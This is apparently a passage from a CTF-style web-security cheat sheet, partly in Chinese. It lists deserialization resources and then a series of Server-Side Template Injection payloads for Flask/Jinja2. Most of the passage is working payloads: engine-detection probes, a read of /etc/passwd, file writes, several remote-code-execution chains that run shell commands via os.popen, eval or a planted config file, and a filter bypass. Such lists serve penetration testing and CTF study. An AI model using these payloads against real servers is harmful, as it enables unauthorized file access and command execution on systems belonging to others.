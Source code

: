## Java Deserialization

- https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet

## .NET Derserialization

- [ysoserial.net](https://github.com/pwntester/ysoserial.net)
- asp.net中ViewState以序列化形式保存資料
  - 有machinekey或viewstate未加密/驗證時，可以RCE
- Example
  - HITCON CTF 2018 - Why so Serials?

# SSTI

Server-Side Template Injection

![img](https://i.imgur.com/GVZeVq6.png)

## Testing
- ` {{ 7*'7' }}`
  - Twig: `49`
  - Jinja2: `7777777`
- `<%= 7*7 %>`
  - Ruby ERB: `49`

## Flask/Jinja2
- Dump all used classes
  - `{{ ''.__class__.__mro__[2].__subclasses__() }}
`
- Read File
  - `{{''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read()}}`
- Write File
  - `{{''.__class__.__mro__[2].__subclasses__()[40]('/var/www/app/a.txt', 'w').write('Kaibro Yo!')}}`
- RCE
  - `{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}`
    - evil config
  - `{{ config.from_pyfile('/tmp/evilconfig.cfg') }}`
    - load config
  - `{{ config['RUNCMD']('cat flag',shell=True) }}`

- RCE (another way)
  - `{{''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('ls').read()}}`
- Python3 RCE
  - ```python
    {% for c in [].__class__.__base__.__subclasses__() %}
    {% if c.__name__ == 'catch_warnings' %}
      {% for b in c.__init__.__globals__.values() %}
      {% if b.__class__ == {}.__class__ %}
      {% if 'eval' in b.keys() %}
        {{ b['eval']('__import__("os").popen("id").read()') }}
      {% endif %}
      {% endif %}
      {% endfor %}
    {% endif %}
    {% endfor %}
    ```
- 過濾中括號
  - `__getitem__`
  - `{{''.__class__.__mro__.__getitem__(2)}}`